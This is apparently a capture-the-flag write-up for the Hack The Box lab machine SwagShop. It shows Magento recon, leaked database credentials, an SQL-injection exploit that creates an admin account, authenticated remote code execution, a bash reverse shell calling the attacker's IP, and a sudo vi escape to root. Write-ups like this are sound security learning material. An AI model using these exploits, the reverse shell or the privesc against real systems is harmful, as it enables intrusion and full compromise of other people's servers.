

# SwagShop: 10.10.10.140

## Hints

- Try running a vulnerability scanner against the discovered CMS to get version information
- Look for exploits that will help inject your way to authenticated access
- Look for another exploit that requires authentication to get code execution
- Privesc is nice and fast, even for those who haven't done much Linux privesc before - look for things you can run as root

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Based on the SSH version, looks like we have an Ubuntu Xenial target - version 16.04. The system is also running Apache on port 80.

## 80: Recon

Visiting the web page, there is a redirect to the `swagshop.htb` DNS name.


Added `swagshop.htb` to my `/etc/hosts` file and reloaded the page. Checking the loaded page shows a link to the machine name, as the website seems to be selling HTB swag! FYI - there is an actual [HTB Store](https://hackthebox.store/) that sells swag - if you didn't know!


Having a look around the site, I can see a bunch of links to PHP pages, so decided to start a directory scanner. I keep hearing about [`feroxbuster`](https://github.com/epi052/feroxbuster) as a `gobuster` alternative, so decided to try it out today. Started by installing it on Kali.

```none
sudo apt update && sudo apt install -y feroxbuster
```

Then ran a scan using mostly default options. The default recursion of 4 might generate huge amounts of requests, especially for a target like SwagShop that had lots of directories. Probably not the best machine to test out `feroxbuster`. It seems like it would be better on a site with a simpler structure, where open directory listings are not available. Anyway, I toned down the scan options to run similar to a normal `gobuster`. But it was a fun experiment.

```none
└─$ feroxbuster -u http://swagshop.htb -x php txt md xml -o logs/feroxbuster_80_root_default.log -d 1 -r

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://swagshop.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💾  Output File           │ logs/feroxbuster_80_root_default.log
 💲  Extensions            │ [php, txt, md, xml]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 1
```

While `feroxbuster` was running, I went back to some manual enumeration. There was a website footer that has a copyright date of 2014, and a reference to "Magento Demo Store". Turns out that [Magento](https://github.com/magento/magento2) is an open-source e-commerce CMS. The version on the target was really old, circa 2014, but we have no actual version number to help find exploits. So the current goal is to find version information.

I started looking around the site based on the `feroxbuster` results. Most (all?) of the directories have an open directory listing, so it makes it easy to find interesting files and makes the recursion of `feroxbuster` unneeded. But it is still an awesome tool!

Found an interesting file in `/app/etc/local.xml` that has the install date, username, and password for `root` access to MySQL, and some weird crypt key.

```xml
...snip...
<install>
    <date>Wed, 08 May 2019 07:23:09 +0000</date>
</install>
...snip...
<crypt>
    <key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>
...snip...
<default_setup>
    <connection>
        <host>localhost</host>
        <username>root</username>
        <password>fMVWh7bDHpgZkyfqQXreTjU9</password>
        <dbname>swagshop</dbname>
        <initStatements>SET NAMES utf8</initStatements>
        <model>mysql4</model>
        <type>pdo_mysql</type>
        <pdoType></pdoType>
        <active>1</active>
    </connection>
</default_setup>
...snip...
```

Apart from that, I only found the "MageAdmin" version of 1.6.1.1 in the `app/code/core/Mage/Admin/etc/config.xml` file. While doing some research on finding interesting Magento files, I came across a command line vulnerability scanner called [`magescan`](https://github.com/steverobbins/magescan) that seemed worthwhile trying.

Downloaded the latest release from GitHub using `wget`.

```none
wget https://github.com/steverobbins/magescan/releases/download/v1.12.9/magescan.phar
```

Then ran the tool to do a full scan.

```none
php magescan.phar scan:all http://swagshop.htb
```

The output was pretty useful and managed to find the Magento version.

```none
+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+
```

The tool also scanned a collection of known Magento paths. Nothing too interesting, as I had discovered most of these files already.

## Admin Panel Access using SQLi Exploit

With the version info, started having a look for exploits.

```none
└─$ searchsploit magento      
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                      | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Se | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cro | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?emai | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                         | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                    | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                      | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                         | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                         | xml/webapps/37977.py
Magento Server MAGMI Plugin - Multiple Vulnerabilities                            | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                       | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass      | php/webapps/48135.php
---------------------------------------------------------------------------------- ---------------------------------
```

There was a matching exploit for version 1.9.0, but it required authenticated access to the admin interface - which we do not currently have. Started looking at some of the other exploits. I am a little slack when looking at non-versioned exploits and always leave them for last. However, the "Magento eCommerce - Remote Code Execution" exploit seemed like it could be possible based on the release date.

After having a look at the code, the exploit works by executing an SQL injection attack against the admin panel. 

> If magento version is vulnerable, this script will create admin account with username form and password form

I hadn't found the admin panel yet, so attempted to verify that it existed. The exploit provided the following endpoint which didn't exist.

```none
/admin/Cms_Wysiwyg/directive/index/
```

After some searching, I discovered that if you added `index.php` before the `admin` URL, then the admin panel would load. Thanks to StackOverflow for this good answer: [What is the correct URL for MAGENTO admin](https://stackoverflow.com/questions/5817684/what-is-the-correct-url-for-magento-admin). With this info, we can load the admin panel successfully.

```none
http://swagshop.htb/index.php/admin/
```


With this resolved, we should be able to run the exploit. However, I couldn't stop myself from refactoring the Python script to make it run on Python 3, pass PEP8 code formatting and make it a little cleaner. My version of the [`37977_mod.py` script](exploits/37977_mod.py) is provided in this repo, in the `exploits` folder.

After fixing up the script, ran it against the target. This created a new username and password (of our choosing) on the target. I wish the process of refactoring the script was a simple as it sounds, but it took at least an hour. Finally, logged into the created account using the creds I set in the script.



## Foothold Using RCE

With access to the admin panel, we can now investigate the "Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution" exploit. This was the first exploit that I identified but didn't have authenticated access to use it.

```none
└─$ searchsploit magento | grep -i auth
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                      | php/webapps/37811.py
```

Again, I couldn't help myself... I refactored the script! But this time it was probably needed, as the original exploit required the `mechanize` Python package which I found a pain to work with. Even installing it on Kali to work with Python 2 was annoying, so a rewrite seemed useful. I modified the exploit to:

- Port to Python 3
- Refactor to use requests library instead of `mechanize`
- Added auto-install date fetching
- Tidied up code for PEP8

The process was also really useful to understand the flow of the exploit. The original script was pretty cryptic, but after the rewrite, it made perfect sense.

- Log in with a valid-user
- Get the install date of Magento, which is needed for the exploit to work
- Get a URL for an AJAX call, with the dynamic key needed to call it
- Make the AJAX call and get the source URL to send the exploit to
- Convert the payload to base64
- Hash the payload combined with the install date
- Make the AJAX call with the payload and unique hash

The modified script is available from [`37811_mod.py` exploit](exploits/37811_mod.py). It can be run without any arguments, as they are all hardcoded in the script. So, modify the defaults and run with...

```none
python3 37811_mod.py
```

Below is some example output that helps print out some of the important values from the exploit process.

```none
└─$ python3 37811_mod.py
[+] target: http://swagshop.htb
[+] command: id
[+] username: username
[+] password: password

[+] Determine install date...
[+] localxml_url: http://swagshop.htb/app/etc/local.xml
[+] install_date: Wed, 08 May 2019 07:23:09 +0000

[+] Log in to admin panel...
[+] url: http://swagshop.htb/index.php/admin/dashboard/ajaxBlock/key/27380afdb5f8ca62e26b7c398fdb3efc/
[+] key: h12YcameEXRiiY5K
[+] fetch_url: http://swagshop.htb/index.php/admin/dashboard/ajaxBlock/key/27380afdb5f8ca62e26b7c398fdb3efc/block/tab_orders/period/2y/
[+] fetch_params: {'isAjax': False, 'form_key': 'h12YcameEXRiiY5K'}

[+] Run exploit...
[+] exploit_url: http://swagshop.htb/index.php/admin/dashboard/tunnel/key/8409bd35ca9733f1c699952f26f27206/
[+] r.status_code: 500
[+] r.text: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As seen, the last line shows the `id` command run as the `www-data` user. Success! Code execution! The next step is to get an actual shell. Changed to a command in the script to a bash reverse shell.

```python
command = "bash -c 'bash -i >& /dev/tcp/10.10.14.15/9001 0>&1'"
```

Re-ran the script after starting a netcat listener. Kind of cool that after all this work we get the user flag as the `www-data` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.140] 51224
bash: cannot set terminal process group (1271): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/var/www/html$ wc -c /home/haris/user.txt
wc -c /home/haris/user.txt
33 /home/haris/user.txt
```

## Privesc: `www-data` to `root`

After a couple of hours of trying to get a foothold and refactoring Python scripts, I didn't feel like a long battle for `root` access. Luckily, it was a pretty easy privesc. Check `sudo` configuration shows we can run `vi` without a password.

```none
www-data@swagshop:/var/www$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Thanks to a quick GTFOBins check, we can easily invoke `vi` and escape to a bash shell. Since we can call this command with `sudo` and without a password, we can get a shell as `root`.

```none
sudo /usr/bin/vi /var/www/html/LICENSE.txt -c ':!/bin/sh'
```

And the result is we are pushed into a root shell. One cool thing was the nifty ASCII art in the root flag file that has a link to the new HTB swag store!

```none
"/var/www/html/LICENSE.txt" [noeol][dos] 48L, 10410C
# /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
270 /root/root.txt
# cat /root/root.txt
c2b087d*************************

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```

Done!

## Lessons Learned

- Once again, refactoring exploits takes time, but is worth it to debug and completely understand the exploit.
- Don't disregard non-versioned exploits! Continue working on methodology to review and trial potential exploits.

## Useful Resources

- [HackTheBox - Swagshop by ippsec](https://www.youtube.com/watch?v=qECG2_8xw_s)
- [HTB: SwagShop by 0xdf](https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html)
